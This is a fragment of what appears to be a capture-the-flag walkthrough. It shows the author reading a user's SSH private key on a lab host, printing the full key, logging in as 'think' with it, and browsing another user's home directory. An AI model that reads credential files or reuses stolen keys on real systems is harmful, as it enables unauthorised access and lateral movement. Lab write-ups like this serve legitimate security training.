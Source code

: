 ```
cat id_rsa
```

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

nano id_rsa
```
ssh think@10.10.174.83 -i id_rsa
```

```
think@smol:/home$ cd gege
think@smol:/home/gege$ ls
wordpress.old.zip
think@smol:/home/gege$ 
```
